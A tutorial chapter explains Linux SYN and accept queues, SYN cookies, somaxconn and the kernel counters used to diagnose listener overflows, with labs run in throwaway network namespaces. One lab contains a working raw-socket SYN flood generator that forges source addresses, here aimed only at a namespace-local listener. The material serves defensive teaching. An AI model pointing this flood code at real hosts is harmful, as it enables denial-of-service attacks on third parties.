

# SYN Floods and Listen Queues: SYN_RECV, SYN Cookies, and Accept Overflow

A TCP server commits memory before it knows the client is real. The first SYN makes the kernel allocate a request socket, send a SYN-ACK, and wait. A **SYN flood** sends SYNs from spoofed addresses that will never send the final ACK, so those half-open entries pile up until the listener refuses real clients. Linux has two queues per listener, two different limits, and a stateless escape hatch, **SYN cookies**, that is on by default. Most "we tuned it and nothing changed" incidents come from mixing up which queue overflowed. This chapter separates them, measures each one with real counters, and runs an actual spoofed flood, without root, inside a throwaway network namespace.

## Learning goals

- Draw the SYN queue (request sockets, `SYN_RECV`) and the accept queue (`ESTABLISHED`, waiting for `accept()`) and say which limit applies to each
- Explain why `net.ipv4.tcp_max_syn_backlog` does **not** size the SYN queue on a modern kernel, and what it actually does
- Read `ss -lnt` `Recv-Q`/`Send-Q` on a listener and the `TcpExt` counters (`ListenOverflows`, `ListenDrops`, `TCPReqQFullDrop`, `TCPReqQFullDoCookies`, `Syncookies*`)
- Say what a SYN cookie encodes, and what a cookie-built connection loses (MSS precision, and every option when timestamps are off)
- Tell a flood from an application that accepts too slowly, and fix the right one
- Reproduce a spoofed SYN flood safely with an unprivileged user + network namespace

Lab platform: Linux 6.12, iproute2 6.15 (`ss`, `ip`, `nstat`), Python 3.13.5, run as an unprivileged user. Each lab runs in its own `unshare -rn` namespace: root there, with its own sysctls, raw sockets, and veth, and no effect on the host. Every listing output below is pasted from those runs. Kernel behaviour is quoted from `net/ipv4/tcp_input.c`, `tcp_minisocks.c`, and `syncookies.c` in Linux 6.12.

This chapter covers the host's own defences. Upstream scrubbing, SYN proxies in front of the server (`nftables synproxy`, load balancers), and XDP drop paths are out of scope here.

## Mental model

{fig-alt="Clients send SYNs to a listener. Each SYN creates a request socket in the SYN queue, state SYN_RECV, about 300 bytes each. The SYN queue is full when its length exceeds min(backlog, somaxconn); with syncookies off, unproven peers are also dropped above three quarters of tcp_max_syn_backlog. The final ACK moves the connection to the accept queue, shown by ss -lnt as Recv-Q over Send-Q, full when the count exceeds the backlog, so listen(3) holds four. accept() empties it. SYN-queue overflow either sends a stateless SYN cookie (tcp_syncookies=1, counters TCPReqQFullDoCookies and SyncookiesSent/Recv) or drops the SYN (tcp_syncookies=0, TCPReqQFullDrop and ListenDrops); tcp_syncookies=2 sends cookies for every SYN. Accept-queue overflow drops new SYNs even with cookies (ListenOverflows, ListenDrops) and ignores the final ACK, or resets it if tcp_abort_on_overflow=1. A footer notes that cookie connections keep an MSS from a four-entry table and keep window scaling, SACK and ECN only through TCP timestamps; SYN-ACK retries default to 5, about 63 seconds."}

```text
             SYN                         final ACK                 accept()
 client ───────────► [ SYN queue ] ─────────────────► [ accept queue ] ───────► application
                     request socks, SYN_RECV           full sockets, ESTABLISHED
                     limit: len > min(backlog,          limit: count > min(backlog,
                            somaxconn)                         somaxconn)
                     overflow: cookie or drop          overflow: drop SYN; ignore ACK
                                                                 (RST if abort_on_overflow)
```

Both queues hang off the same `listen()` call. In Linux 6.12, `tcp_conn_request()` checks them in this order for every incoming SYN:

1. `tcp_syncookies == 2`, or the **SYN queue** is full (`inet_csk_reqsk_queue_len(sk) > sk_max_ack_backlog`)? Then `tcp_syn_flood_action()`: with cookies enabled, answer with a cookie (`TCPReqQFullDoCookies`); otherwise drop (`TCPReqQFullDrop`).
2. The **accept queue** is full (`sk_ack_backlog > sk_max_ack_backlog`)? Drop the SYN (`ListenOverflows`). Cookies do not help here.
3. Cookies off and the SYN queue more than three quarters of `tcp_max_syn_backlog`? Drop SYNs from peers the kernel has not seen before (`tcp_peer_is_proven()` is false). `ListenDrops` only.
4. Otherwise allocate a request socket (≈300 bytes), send the SYN-ACK, and retransmit it up to `tcp_synack_retries` times (5 → about 63 s before giving up).

`sk_max_ack_backlog` is the `backlog` you passed to `listen()`, silently capped at `net.core.somaxconn` (default 4096 since Linux 5.4). The `>` comparisons mean `listen(N)` holds **N + 1** entries.

| Knob | Default here | What it really does on 6.12 |
|---|---|---|
| `listen(fd, backlog)` | app-chosen | Sets **both** queue limits (`sk_max_ack_backlog`) |
| `net.core.somaxconn` | 4096 | Caps `backlog` without telling the application |
| `net.ipv4.tcp_syncookies` | 1 | 0 = never, 1 = when the SYN queue is full, 2 = always |
| `net.ipv4.tcp_max_syn_backlog` | 1024 (≥128, scales with RAM) | Only with cookies **off**: keep the last quarter for proven peers |
| `net.ipv4.tcp_synack_retries` | 5 | How long a half-open entry occupies a slot |
| `net.ipv4.tcp_abort_on_overflow` | 0 | Final ACK into a full accept queue: 0 = ignore it, 1 = send RST |

All of these are per network namespace, which is what makes the labs below safe.

## Concepts — what a SYN cookie is

With a cookie, the server keeps **no state**. It encodes the essentials in the 32-bit initial sequence number of its SYN-ACK: a keyed hash of the 4-tuple and a coarse timestamp, plus a 2-bit index into a table of four MSS values (`msstab = {536, 1300, 1440, 1460}` in `net/ipv4/syncookies.c`). When an ACK arrives with no request socket behind it, the kernel checks `ack − 1` against the hash (valid for two 60-second periods), rebuilds the connection, and counts `SyncookiesRecv` (or `SyncookiesFailed`).

The price is the TCP options. The ISN has no room for window scale, SACK, or ECN. Linux hides them in the low 6 bits of the TCP timestamp value if the client sent timestamps (`TS_OPT_WSCALE_MASK`, `TS_OPT_SACK`, `TS_OPT_ECN`). If timestamps are off, a cookie connection has no window scaling (64 KiB window), no SACK, and an MSS rounded down to the table. The kernel's own sysctl documentation is blunt: cookies are a fallback and "seriously violate TCP protocol"; if you see SYN-flood warnings from **legitimate** load, fix the backlog, not the cookies.

## Lab — setup: a private network namespace with a void

`unshare -rn` gives an unprivileged user a new user namespace (mapped to root) and a new network namespace. The helper below adds a veth so the server has a real address (`10.9.0.1`) and routes TEST-NET-2 (`198.51.100.0/24`, RFC 5737) to a fake next hop. SYN-ACKs to "spoofed" clients leave `v0` and are never answered, exactly like a real spoofed flood.

```sh
#!/bin/sh
# netns_lab.sh — run CMD inside a throwaway network namespace:
#   lo up, veth v0 = 10.9.0.1/24, and 198.51.100.0/24 (TEST-NET-2) routed into a void
# usage: unshare -rn ./netns_lab.sh CMD [ARGS...]
set -e
ip link set lo up
ip link add v0 type veth peer name v1
ip link set v0 up && ip link set v1 up
ip addr add 10.9.0.1/24 dev v0
ip route add 198.51.100.0/24 via 10.9.0.2 dev v0
# a fake next hop: SYN-ACKs to the "spoofed" clients leave v0 and are never answered
ip neigh replace 10.9.0.2 lladdr 02:00:00:00:00:02 dev v0 nud permanent
exec "$@"
```

```sh
#!/bin/sh
# listen_defaults.sh — the knobs that size and protect a TCP listener (this netns)
for k in net/ipv4/tcp_syncookies net/ipv4/tcp_max_syn_backlog \
         net/ipv4/tcp_synack_retries net/ipv4/tcp_abort_on_overflow net/core/somaxconn; do
  printf '%-32s %s\n' "$k" "$(cat /proc/sys/$k)"
done
nstat -az TcpExtListenOverflows TcpExtListenDrops TcpExtTCPReqQFullDrop \
          TcpExtTCPReqQFullDoCookies TcpExtSyncookiesSent TcpExtSyncookiesRecv
```

```bash
chmod +x netns_lab.sh listen_defaults.sh
./listen_defaults.sh                                # host namespace, read-only
unshare -rn ./netns_lab.sh ip route                 # the lab namespace
```

```text
net/ipv4/tcp_syncookies          1
net/ipv4/tcp_max_syn_backlog     1024
net/ipv4/tcp_synack_retries      5
net/ipv4/tcp_abort_on_overflow   0
net/core/somaxconn               4096
#kernel
TcpExtSyncookiesSent            0                  0.0
TcpExtSyncookiesRecv            0                  0.0
TcpExtListenOverflows           0                  0.0
TcpExtListenDrops               0                  0.0
TcpExtTCPReqQFullDoCookies      0                  0.0
TcpExtTCPReqQFullDrop           0                  0.0
```

```text
10.9.0.0/24 dev v0 proto kernel scope link src 10.9.0.1 
198.51.100.0/24 via 10.9.0.2 dev v0 
```

The host counters are all zero, and they stay zero after every lab below: each `unshare -rn` namespace has its own `/proc/net/netstat` and its own sysctls.

`tcpext.py` is the shared counter reader (the same numbers `nstat` prints):

```python
# tcpext.py — read TcpExt counters from /proc/net/netstat (what `nstat` reports)
KEYS = ("ListenOverflows", "ListenDrops", "TCPReqQFullDrop",
        "TCPReqQFullDoCookies", "SyncookiesSent", "SyncookiesRecv", "SyncookiesFailed")

def tcpext():
    lines = open("/proc/net/netstat").read().splitlines()
    for names, values in zip(lines[::2], lines[1::2]):
        if names.startswith("TcpExt:"):
            return dict(zip(names.split()[1:], map(int, values.split()[1:])))

def delta(before, after):
    return {k: after[k] - before[k] for k in KEYS if after[k] != before[k]}
```

## Lab — accept queue: a server that never calls `accept()`

```python
# accept_queue_lab.py — a listener that never calls accept(): what happens to client #5?
# usage: unshare -rn ./netns_lab.sh python3 accept_queue_lab.py BACKLOG CLIENTS ABORT_ON_OVERFLOW
import socket, subprocess, sys, time
from tcpext import tcpext, delta

backlog, clients, abort = map(int, sys.argv[1:4])
with open("/proc/sys/net/ipv4/tcp_abort_on_overflow", "w") as f:
    f.write(str(abort))

lsock = socket.socket()
lsock.bind(("10.9.0.1", 8080))
lsock.listen(backlog)                       # never accept()

before = tcpext()
socks = []
for i in range(clients):
    c = socket.socket()
    c.setblocking(False)
    c.connect_ex(("10.9.0.1", 8080))        # non-blocking: SYN goes out now
    socks.append(c)
    time.sleep(0.05)
time.sleep(1.5)                             # let one SYN retransmit (RTO 1 s) happen

print(f"listen({backlog}), {clients} clients, tcp_abort_on_overflow={abort}")
print(subprocess.run(["ss", "-ltn", "sport = :8080"], capture_output=True, text=True).stdout, end="")
states = subprocess.run(["ss", "-Htn", "dport = :8080"], capture_output=True, text=True).stdout
count = {}
for line in states.splitlines():
    count[line.split()[0]] = count.get(line.split()[0], 0) + 1
print("client-side states:", count)
srv = subprocess.run(["ss", "-Htn", "state", "syn-recv", "sport = :8080"],
                     capture_output=True, text=True).stdout
print("server SYN-RECV:", len(srv.splitlines()))
print("TcpExt deltas:", delta(before, tcpext()))
```

```bash
unshare -rn ./netns_lab.sh python3 accept_queue_lab.py 3 8 0
unshare -rn ./netns_lab.sh python3 accept_queue_lab.py 3 8 1
```

```text
listen(3), 8 clients, tcp_abort_on_overflow=0
State  Recv-Q Send-Q Local Address:Port Peer Address:Port
LISTEN 4      3           10.9.0.1:8080      0.0.0.0:*   
client-side states: {'SYN-SENT': 4, 'ESTAB': 4}
server SYN-RECV: 0
TcpExt deltas: {'ListenOverflows': 8, 'ListenDrops': 8}

listen(3), 8 clients, tcp_abort_on_overflow=1
State  Recv-Q Send-Q Local Address:Port Peer Address:Port
LISTEN 4      3           10.9.0.1:8080      0.0.0.0:*   
client-side states: {'ESTAB': 4, 'SYN-SENT': 4}
server SYN-RECV: 0
TcpExt deltas: {'ListenOverflows': 8, 'ListenDrops': 8}
```

How to read it:

- On a **listening** socket, `ss` reuses the columns: `Recv-Q` is the current accept-queue length (4), `Send-Q` is its limit (3). `Recv-Q` = `Send-Q` + 1 is the "full" signature, because the check is `>`.
- Four clients completed the handshake and sit `ESTAB` in the queue. The application has not seen them, but the clients think they are connected and may already be sending.
- The other four never got a SYN-ACK. Their SYNs hit step 2 (accept queue full) and were dropped. Each client retransmitted once after the 1 s initial RTO, so 4 × 2 = **8** `ListenOverflows`. They stay in `SYN-SENT` and keep retrying with backoff; if the application wakes up and calls `accept()`, they get in.
- `tcp_abort_on_overflow=1` changed nothing. It acts only in `tcp_check_req()` when a **final ACK** arrives for a request whose accept queue filled in the meantime (`listen_overflow:` → `embryonic_reset`). Here the SYNs were refused before any handshake. In production it turns a short burst into connection resets for clients that would have recovered, which is why the kernel docs say to enable it only if the daemon really cannot keep up.
- No `SYN_RECV` entries and no cookie counters: this is not a flood. It is an application that does not accept fast enough, and the fix is in the application or its `listen()` backlog.

## Lab — `somaxconn` silently caps the backlog

```python
# somaxconn_lab.py — listen() backlog is silently capped by net.core.somaxconn
# usage: unshare -rn ./netns_lab.sh python3 somaxconn_lab.py
import socket, subprocess

def show(somaxconn, backlog):
    open("/proc/sys/net/core/somaxconn", "w").write(str(somaxconn))
    s = socket.socket()
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind(("10.9.0.1", 8080))
    s.listen(backlog)
    line = subprocess.run(["ss", "-Hltn", "sport = :8080"], capture_output=True, text=True).stdout.split()
    print(f"somaxconn={somaxconn:<5} listen({backlog:<6}) -> ss Send-Q={line[2]}")
    s.close()

show(4096, 128)
show(4096, 65535)
show(128, 1024)
```

```bash
unshare -rn ./netns_lab.sh python3 somaxconn_lab.py
```

```text
somaxconn=4096  listen(128   ) -> ss Send-Q=128
somaxconn=4096  listen(65535 ) -> ss Send-Q=4096
somaxconn=128   listen(1024  ) -> ss Send-Q=128
```

`listen()` never fails because the backlog is too large. `__sys_listen_socket()` in `net/socket.c` clamps it to `somaxconn`, and only `ss -lnt` `Send-Q` shows what the kernel actually used. Many servers have their own setting (nginx `listen … backlog=`, default 511 on Linux; HAProxy `backlog`; Go's `net` package passes `somaxconn` itself; Java's `ServerSocket` defaults to 50). Raising `somaxconn` without raising the application value does nothing, and the reverse is capped.

## Lab — a spoofed SYN flood, three ways

The flood builds IPv4 + TCP SYN headers by hand on a raw socket (allowed in the namespace, where the user is root). Sources cycle through `198.51.100.1–254`. After the flood, one **real** client in the same namespace tries to connect with a 3 s timeout.

```python
# synflood_lab.py — spoofed SYN flood against a listener, inside a private netns.
# usage: unshare -rn ./netns_lab.sh python3 synflood_lab.py COOKIES MAX_SYN_BACKLOG BACKLOG SYNS
import os, random, socket, struct, sys, time
from tcpext import tcpext, delta

cookies, max_syn_backlog, backlog, syns = map(int, sys.argv[1:5])
SERVER, PORT = "10.9.0.1", 8080

def sysctl(name, value):
    with open("/proc/sys/" + name.replace(".", "/"), "w") as f:
        f.write(str(value))

sysctl("net.ipv4.tcp_syncookies", cookies)
sysctl("net.ipv4.tcp_max_syn_backlog", max_syn_backlog)

lsock = socket.socket()
lsock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
lsock.bind((SERVER, PORT))
lsock.listen(backlog)

def csum(data):
    if len(data) % 2:
        data += b"\0"
    s = sum(struct.unpack(f"!{len(data)//2}H", data))
    s = (s >> 16) + (s & 0xFFFF)
    return ~(s + (s >> 16)) & 0xFFFF

def syn(src, sport):
    dst = socket.inet_aton(SERVER)
    seq = random.getrandbits(32)
    tcp = struct.pack("!HHIIBBHHH", sport, PORT, seq, 0, 5 << 4, 0x02, 64240, 0, 0)
    pseudo = socket.inet_aton(src) + dst + struct.pack("!BBH", 0, 6, len(tcp))
    tcp = tcp[:16] + struct.pack("!H", csum(pseudo + tcp)) + tcp[18:]
    ip = struct.pack("!BBHHHBBH4s4s", 0x45, 0, 20 + len(tcp), 0, 0, 64, 6, 0,
                     socket.inet_aton(src), dst)
    return ip + tcp

def syn_recv_count():
    n = 0
    with open("/proc/net/tcp") as f:
        next(f)
        for line in f:
            local, state = line.split()[1], line.split()[3]
            if state == "03" and local.endswith(f":{PORT:04X}"):   # 03 = SYN_RECV
                n += 1
    return n

before = tcpext()
raw = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_RAW)
for i in range(syns):
    src = f"198.51.100.{1 + i % 254}"
    raw.sendto(syn(src, 1024 + i), (SERVER, 0))
time.sleep(0.5)
print(f"tcp_syncookies={cookies} tcp_max_syn_backlog={max_syn_backlog} "
      f"listen({backlog}) spoofed SYNs={syns}")
print(f"  SYN_RECV entries on :{PORT}: {syn_recv_count()}")

c = socket.socket()
c.settimeout(3)
t0 = time.monotonic()
try:
    c.connect((SERVER, PORT))
    conn, _ = lsock.accept()
    print(f"  real client: connected in {1000*(time.monotonic()-t0):.1f} ms, accepted")
except OSError as e:
    print(f"  real client: FAILED after {time.monotonic()-t0:.1f} s ({e})")
print(f"  TcpExt deltas: {delta(before, tcpext())}")
```

```bash
unshare -rn ./netns_lab.sh python3 synflood_lab.py 0  128 4096 1000   # cookies off, small max_syn_backlog
unshare -rn ./netns_lab.sh python3 synflood_lab.py 0 4096   64 1000   # cookies off, small listen backlog
unshare -rn ./netns_lab.sh python3 synflood_lab.py 1  128   64 1000   # default: cookies when full
unshare -rn ./netns_lab.sh python3 synflood_lab.py 2  128   64   10   # cookies always
```

```text
tcp_syncookies=0 tcp_max_syn_backlog=128 listen(4096) spoofed SYNs=1000
  SYN_RECV entries on :8080: 97
  real client: FAILED after 3.0 s (timed out)
  TcpExt deltas: {'ListenDrops': 906}
tcp_syncookies=0 tcp_max_syn_backlog=4096 listen(64) spoofed SYNs=1000
  SYN_RECV entries on :8080: 65
  real client: FAILED after 3.0 s (timed out)
  TcpExt deltas: {'ListenDrops': 938, 'TCPReqQFullDrop': 938}
tcp_syncookies=1 tcp_max_syn_backlog=128 listen(64) spoofed SYNs=1000
  SYN_RECV entries on :8080: 65
  real client: connected in 0.2 ms, accepted
  TcpExt deltas: {'TCPReqQFullDoCookies': 936, 'SyncookiesSent': 936, 'SyncookiesRecv': 1}
tcp_syncookies=2 tcp_max_syn_backlog=128 listen(64) spoofed SYNs=10
  SYN_RECV entries on :8080: 0
  real client: connected in 0.1 ms, accepted
  TcpExt deltas: {'TCPReqQFullDoCookies': 11, 'SyncookiesSent': 11, 'SyncookiesRecv': 1}
```

Every number is accounted for:

1. **Cookies off, `listen(4096)`, `tcp_max_syn_backlog=128`.** The SYN queue is nowhere near the listen limit, but it stops at **97** entries: step 3 drops unproven peers once fewer than `128 >> 2 = 32` slots of `tcp_max_syn_backlog` remain (`128 − 97 < 32`). 1000 − 97 = 903 spoofed SYNs dropped, plus the real client's SYN and its two retransmits (at 1 s and 3 s) = **906** `ListenDrops`. This path does not count `TCPReqQFullDrop` because the queue is not "full", it is being rationed. The real client is a new, unproven peer, so it loses too.
2. **Cookies off, `listen(64)`, `tcp_max_syn_backlog=4096`.** Now the listen backlog is the limit: **65** entries (`> 64`), then step 1 drops: 935 + 3 client attempts = **938**, counted as both `TCPReqQFullDrop` and `ListenDrops`. A large `tcp_max_syn_backlog` did not buy a single extra slot.
3. **Default cookies (`1`).** The same 65 entries fill, then every further SYN gets a cookie: 935 spoofed + 1 real = **936** `SyncookiesSent`. The real client's ACK validates (`SyncookiesRecv` 1) and it connects in 0.2 ms, with a queue full of junk.
4. **Cookies always (`2`).** No request sockets at all (`SYN_RECV` 0). Every SYN, including the real one, is answered statelessly. This is a test mode, and it costs every client its options (next lab).

The kernel also logged the event once per listener (ratelimited, `tcp_syn_flood_action()`), on the host's `dmesg`, which is shared by all namespaces:

```text
TCP: request_sock_TCP: Possible SYN flooding on port 10.9.0.1:8080. Dropping request.
TCP: request_sock_TCP: Possible SYN flooding on port 10.9.0.1:8080. Sending cookies.
```

Case 1 logs nothing: step 3 drops are reported only through `pr_drop_req()` at debug level. A host can be shedding real clients with no warning in the log, which is one more reason to read the counters.

## Lab — what a cookie connection keeps

```python
# cookie_options_lab.py — what a SYN-cookie connection keeps of the client's TCP options
# usage: unshare -rn ./netns_lab.sh python3 cookie_options_lab.py
import socket, struct

TS, SACK, WSCALE = 1, 2, 4                  # TCPI_OPT_* bits in tcp_info.tcpi_options

def sysctl(name, value):
    with open("/proc/sys/" + name.replace(".", "/"), "w") as f:
        f.write(str(value))

def options(sock):
    raw = sock.getsockopt(socket.IPPROTO_TCP, socket.TCP_INFO, 104)
    opts, wscale = raw[5], raw[6]
    snd_mss = struct.unpack_from("I", raw, 16)[0]
    names = [n for bit, n in ((TS, "timestamps"), (SACK, "sack"), (WSCALE, "wscale")) if opts & bit]
    if opts & WSCALE:
        names[-1] += f"={wscale & 0xF}/{wscale >> 4}"
    return f"{' '.join(names) or '(no options)'}  snd_mss={snd_mss}"

def handshake(cookies, timestamps):
    sysctl("net.ipv4.tcp_syncookies", cookies)
    sysctl("net.ipv4.tcp_timestamps", timestamps)
    lsock = socket.socket()
    lsock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    lsock.bind(("10.9.0.1", 8080))
    lsock.listen(16)
    c = socket.socket()
    c.connect(("10.9.0.1", 8080))
    conn, _ = lsock.accept()
    print(f"syncookies={cookies} timestamps={timestamps}: server sees {options(conn)}")
    for s in (c, conn, lsock):
        s.close()

handshake(0, 1)   # normal handshake
handshake(2, 1)   # always cookies, timestamps on: options ride in the TS value
handshake(2, 0)   # always cookies, no timestamps: only an MSS bucket survives
```

```bash
unshare -rn ./netns_lab.sh python3 cookie_options_lab.py
```

```text
syncookies=0 timestamps=1: server sees timestamps sack wscale=7/7  snd_mss=32768
syncookies=2 timestamps=1: server sees timestamps sack wscale=7/7  snd_mss=1448
syncookies=2 timestamps=0: server sees (no options)  snd_mss=1460
```

- A normal handshake negotiates timestamps, SACK, and window scale 7 in both directions. The MSS is large because the path is local (veth address over loopback, MTU 65536).
- With a cookie and timestamps, window scale and SACK survive (they rode in the timestamp's low bits). The MSS drops to **1448**: 1460 from `msstab` minus 12 bytes of timestamp option. A loopback-class path now uses Ethernet-sized segments.
- With a cookie and **no timestamps**, nothing survives: no window scaling (receive window capped at 64 KiB, which caps throughput at 64 KiB per RTT), no SACK (loss recovery without selective acknowledgements, one hole per RTT), MSS 1460. Some middleboxes and hosts disable TCP timestamps for privacy or legacy reasons; their users pay this price on every cookie connection.

That is why cookies are the default *fallback* (`1`), not the default *mode* (`2`).

## Case — reading a production listener

The same counters tell three different stories. Take two samples a few seconds apart (`nstat` with no `-a` prints the delta since its last run):

| You see | It is | Do |
|---|---|---|
| `ListenOverflows` rising, `Recv-Q` = `Send-Q` + 1 on `ss -lnt`, cookie counters flat | Accept queue full: the application is slow (GC pause, blocked event loop, too few workers) or the backlog is tiny | Fix the accept loop, raise the app's `listen` backlog **and** `somaxconn` |
| `TCPReqQFullDoCookies` / `SyncookiesSent` rising, many `SYN_RECV` from scattered sources, `SyncookiesRecv` small | SYN flood (or a burst far above the backlog), cookies are absorbing it | Nothing urgent on the host; raise the backlog if real clients also trigger it; push filtering upstream |
| `SyncookiesRecv` ≈ `SyncookiesSent`, few distinct sources | Legitimate load above the SYN-queue limit, served by cookies | Raise the listen backlog; this is the case the sysctl docs warn about |
| `TCPReqQFullDrop` or `ListenDrops` rising with cookies off | Real clients are being refused | Turn cookies back on (`tcp_syncookies=1`) |

```bash
ss -lnt '( sport = :443 )'                       # Recv-Q / Send-Q per listener
ss -Htn state syn-recv '( sport = :443 )' | wc -l  # half-open count
nstat TcpExtListenOverflows TcpExtListenDrops TcpExtTCPReqQFullDoCookies TcpExtSyncookiesSent TcpExtSyncookiesRecv
```

(Commands for a production host; their output here would be the zero counters shown in the setup.)

## The trap

**Trap: "raise `tcp_max_syn_backlog` to survive a SYN flood."** On current kernels the SYN queue limit is the listen backlog (capped by `somaxconn`). `tcp_max_syn_backlog` matters only when cookies are **off**, and then it is a rationing threshold, not a size. Lab case 2 set it to 4096 and still got 65 slots. The `ip-sysctl` text still calls it a "maximal number of remembered connection requests"; the code in `tcp_conn_request()` is the authority.

**Trap: "SYN cookies protect against a full accept queue."** They do not. Step 2 drops SYNs when the accept queue is full, cookies or not. A slow `accept()` loop looks like a SYN flood to clients (timeouts in `SYN-SENT`) but shows `ListenOverflows`, not cookie counters.

**Trap: "`listen(65535)` gives me a 64 K backlog."** `somaxconn` clamps it without an error. Check `Send-Q` on the listener.

**Trap: "turn on `tcp_abort_on_overflow` so clients fail fast."** It only resets handshakes whose final ACK arrives into a full accept queue, and it turns a recoverable burst into hard `ECONNRESET`s. Fix the accept rate instead.

**Trap: "`tcp_syncookies=2` is safer."** It disables request sockets entirely, so every client gets cookie-quality options (MSS table, no options without timestamps). Leave it at `1`.

## The boring rule

Size the listen backlog in the application and in `somaxconn` together, leave `tcp_syncookies=1`, and when clients time out, read `ss -lnt` and the `TcpExt` counters before touching a sysctl: `ListenOverflows` means accept faster, `SyncookiesSent` means you are being flooded and the host is coping.

## Try this

1. Re-run the accept-queue lab, then add an `accept()` loop after 2 s. How long do the `SYN-SENT` clients take to get in, and why (SYN retransmit backoff 1, 2, 4 s …)?
2. In the flood lab, set `tcp_synack_retries=1` with cookies off. Re-run the real client after 5 s instead of immediately. What changed, and what does that tell you about how long a flood must be sustained?
3. Add IPv6 to `netns_lab.sh` (`2001:db8::/32` routed into the void) and repeat case 3. Which counters are shared between IPv4 and IPv6?
4. With `tcp_timestamps=0` on the **client** side only, make a cookie connection and send 10 MB over the veth. Compare throughput with a normal connection.
5. Put an `nft` `synproxy` rule in front of the lab listener (the namespace lets you load rules there) and compare which counters move during the flood.

## Verification

- Linux **6.12.94+** (Debian 13), iproute2 **6.15.0**, Python **3.13.5**, unprivileged user `uid=1000`; each lab ran in its own `unshare -rn` user + network namespace. All outputs above are pasted from those runs.
- The flood was real (1000 hand-built SYN packets on a raw socket per case) but never left the namespace: spoofed sources are TEST-NET-2, SYN-ACKs went to a static fake neighbour on a veth with no peer stack. Host `TcpExt` counters stayed 0.
- Counter arithmetic was checked against `tcp_conn_request()`, `tcp_syn_flood_action()`, `inet_csk_reqsk_queue_is_full()`, `sk_acceptq_is_full()` (Linux 6.12) and the SYN retransmit timing of the real client (initial RTO 1 s).
- **Not shown:** the `tcp_abort_on_overflow` RST path (it needs a final ACK to race a filling accept queue, which local handshakes do not do); it is described from `tcp_check_req()` in `tcp_minisocks.c`. Production `ss`/`nstat` commands in the Case section were not run against a production host.
- No packages installed, no `sudo`, no host sysctl changed.

## Sources

- Linux 6.12 `net/ipv4/tcp_input.c` — `tcp_conn_request()`, `tcp_syn_flood_action()`: <https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/ipv4/tcp_input.c?h=linux-6.12.y>
- Linux 6.12 `net/ipv4/syncookies.c` — `msstab`, timestamp option bits, cookie validity: <https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/ipv4/syncookies.c?h=linux-6.12.y>
- Linux 6.12 `net/ipv4/tcp_minisocks.c` — `tcp_check_req()` `listen_overflow` / `tcp_abort_on_overflow`
- Linux 6.12 `include/net/inet_connection_sock.h`, `include/net/sock.h` — queue-full checks; `net/socket.c` — `somaxconn` clamp
- Kernel docs — [IP sysctl: `tcp_syncookies`, `tcp_max_syn_backlog`, `tcp_synack_retries`, `tcp_abort_on_overflow`](https://docs.kernel.org/networking/ip-sysctl.html)
- man7 — [`tcp(7)`](https://man7.org/linux/man-pages/man7/tcp.7.html), [`listen(2)`](https://man7.org/linux/man-pages/man2/listen.2.html), [`ss(8)`](https://man7.org/linux/man-pages/man8/ss.8.html), [`user_namespaces(7)`](https://man7.org/linux/man-pages/man7/user_namespaces.7.html)
- RFC 4987 — [TCP SYN Flooding Attacks and Common Mitigations](https://www.rfc-editor.org/rfc/rfc4987)
- RFC 9293 — [Transmission Control Protocol](https://www.rfc-editor.org/rfc/rfc9293) (three-way handshake, §3.5)
- RFC 5737 — [IPv4 Address Blocks Reserved for Documentation](https://www.rfc-editor.org/rfc/rfc5737)
